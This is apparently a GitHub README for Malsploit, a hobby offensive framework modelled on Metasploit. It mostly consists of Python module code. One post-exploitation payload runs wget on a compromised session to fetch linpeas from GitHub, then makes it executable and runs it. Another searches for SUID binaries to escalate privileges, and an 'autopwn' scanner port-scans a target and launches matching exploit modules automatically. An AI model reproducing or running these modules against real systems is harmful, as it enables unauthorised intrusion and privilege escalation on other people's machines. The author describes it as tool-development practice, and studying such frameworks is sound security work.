


## Whats Malsploit

Malsploit is a project that I began working on while I was working at NCC group wth the aim of improving my ability to develop tools by attempting to recreate metasploit.

## What can Malsploit do?






## Code Snippits 

### Linpeas execute payload
```python
import threading
import time


class module():

    name = 'linpeas'
    type = 'payload'
    desc = 'download and execute linpeas'
    options = [
        ["listenerid" ,"Listener ID of the session" , 1 , None],
        ["hash" , "Hash of the session" , 1 , None],
        ["dltime" , "Download time for machine " , 0 , 10],
        ["exetime" , "Time to wait for linpeas " , 0 , 300]
    ]
    platform = 'Linux'


    def set(self , instance):
        self.instance = instance

    def run(self):
        self.session = self.instance.active_listeners[self.options[0][3].strip(' ')].listener.connections[self.options[1][3].strip(' ')]
        if(self.session.type == "Linux"):
            print(f"Downloading linpeas on {self.options[1][3]} to /tmp/linpeas.sh")
            try:
                self.session.execute_command("cd /tmp/")
                self.session.execute_command("wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh")
                time.sleep(self.options[2][3])
                self.session.execute_command("chmod +x linpeas.sh")
                self.session.execute_command("./linpeas.sh -q -N -a ") # run linpeas no banner no color all scripts

                self.session.set_active()
                x = threading.Thread(target= self.session.output_thread)
                x.run()
                time.sleep(self.options[3][3])
                self.session.set_deactive()
                print("Finished Execution")
            except Exception as e:
                print(f"Could not execute {e}")
        else:
            print(f"This is only a linux module not {self.session.type}")


```
### find suid payload
```python
import threading
import time


class module():

    name = 'findsuid'
    type = 'payload'
    desc = 'finds suid binnarys'
    options = [
        ["listenerid" ,"Listener ID of the session" , 1 , None],
        ["hash" , "Hash of the session" , 1 , None],
        ["sleep_time" , "Download time for machine " , 0 , "30"],
    ]
    platform = 'Linux'

    def set(self , instance):
        self.instance = instance

    def run(self):
        self.session = self.instance.active_listeners[self.options[0][3].strip(' ')].listener.connections[self.options[1][3].strip(' ')]
        if(self.session.type == "Linux"):
            print(f"Looking for suid binnarys")
            try:
                self.session.execute_command('find / -user root -perm -4000 -exec ls -ldb 22 \{\} \; > /tmp/suid')
                print(f"sleeping for {self.options[2][3]}")
                time.sleep(int(self.options[2][3]))
                self.session.execute_command_output('cat /tmp/suid')
            except Exception as e:
                print(f"Could not execute {e}")
        else:
            print(f"This is only a Linux module not {self.session.type}")


```

### "Auto" Pwn scanner
```python
import nmap3
import modules

class module():

    name = 'autopwn'
    type = 'scanner'
    desc = 'Simple autopwn just a poc now'
    options = [
        ["rhost" ,  "ip address" , 1 , None],
        ["nmap" , "nmap args " , 1 , "-p 0-65535 -Pn"]
        ]
    
    
    def set(self, instance):
        self.instance = instance

    def get_results(self, results):
        for a in results:
            if a != "stats" and a != "runtime":
                for b in results[a]['ports']:
                    for m in self.instance.scanners:
                        mod = self.instance.scanners[m]
                        try:
                            if(mod.auto_pwnable):
                                if(mod.options[1][3] == str(b['portid'])):
                                    print(f"Found potentially exploitable port {b['portid']}")
                                    print(f"Launching {mod.name} against {self.options[0][3]} press ctrl+c to force stop module\n")
                                    try:
                                        modules.set_option('rhost' , self.options[0][3] , mod)
                                        mod.run()
                                        print(f"{mod.name} Complete")
                                    except KeyboardInterrupt:
                                        print(f"Force Stopped {mod.name}")
                        except Exception as e:
                            pass
        print(f"autopwn of {self.options[0][3]} complete")


    def run(self):
        print(f"Starting AutoPwn scan of {self.options[0][3]}")
        nmap = nmap3.Nmap()
        print(f"Starting nmap scan with the args {self.options[1][3]} this may take sometime <3")
        xml = nmap.scan_command(self.options[0][3] ,self.options[1][3]) 
        results = nmap.parser.filter_top_ports(xml)
        print("Port scan complete")
        self.get_results(results)

```
### reload command

```python

class module():

    name = 'reload'
    type = 'cmd'
    desc = 'reloads all modules'
    use  = 'reload'
    options = []
    
    def set(self , instance):
        self.instance = instance

    def run(self , cmd):
        self.instance.reload()
        self.instance.active_module = None
```

### set global option command

```python

class module():

    name = 'setg'
    type = 'cmd'
    desc = 'used to set global option'
    use  = 'setg [option_name] [value]'
    options = []

    
    def set(self , instance):
        self.instance = instance
        self.tab = ['rhosts' , 'rport' , 'lhost' , 'lport' , 'listenerid' , 'hash'] # common option names

    def run(self , cmd):
        i = 0
        value = ''
        for x in cmd:
            if i > 1:
                value = value + x + ' '
            i = i +1
        if (value[0] != " "):
            self.instance.global_options[cmd[1]] = value
        else:
            self.instance.global_options.pop(cmd[1])
```

## Now what ?

I honestly dont really know I liked writing malsploit but I feel if I go anywhere near it again its getting fully re written probs with a web ui